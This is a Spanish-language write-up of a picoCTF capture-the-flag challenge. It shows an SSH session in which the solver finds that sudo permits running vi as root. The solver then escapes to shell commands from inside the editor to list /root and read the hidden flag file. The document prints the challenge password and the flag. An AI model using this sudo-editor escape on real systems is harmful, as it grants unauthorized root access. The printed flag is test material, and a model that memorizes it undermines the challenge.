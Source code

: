 ### Descripción
Can you read files in the root file?
Additional details will be available after launching your challenge instance.

Can you read files in the root file?The system admin has provisioned an account for you on the main server:`ssh -p 62697 picoplayer@saturn.picoctf.net`Password: `vCR2tuwCRm`Can you login and read the root file?

Hints:
1. What permissions do you have?

### Solución
Con Webshell

```
Sebas115-picoctf@webshell:~$ ssh -p 62697 picoplayer@saturn.picoctf.net
picoplayer@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

picoplayer@challenge:~$ ls /
bin  boot  challenge  dev  etc  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
picoplayer@challenge:~$ ls /root
ls: cannot open directory '/root': Permission denied
picoplayer@challenge:~$ ls
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$ vi

ls: cannot open directory '/root': Permission denied

shell returned 2

Press ENTER or type command to continue
picoplayer@challenge:~$ vi
picoplayer@challenge:~$ sudo vi


Press ENTER or type command to continue
total 12
drwx------ 1 root root   23 Aug  4  2023 .
drwxr-xr-x 1 root root   51 Feb 22 18:57 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile

Press ENTER or type command to continue
picoplayer@challenge:~$ sudoo vi
-bash: sudoo: command not found
picoplayer@challenge:~$ sudo vi 
picoplayer@challenge:~$ sudo vi

picoCTF{uS1ng_v1m_3dit0r_ad091ce1}
```


picoCTF{uS1ng_v1m_3dit0r_ad091ce1}

Al entrar en modo root al editor y utilizar el comando :! ls -al /root para ver los archivos y sus permisos se observa un archivo .flag.txt el cual es el que contiene la bandera.
Se entra como usuario root con sudo al editor y se hace un cat a la bandera para mostrarla.
:! cat /root/.flag.txt
### Notas adicionales


### Referencias
https://webshell.picoctf.org/





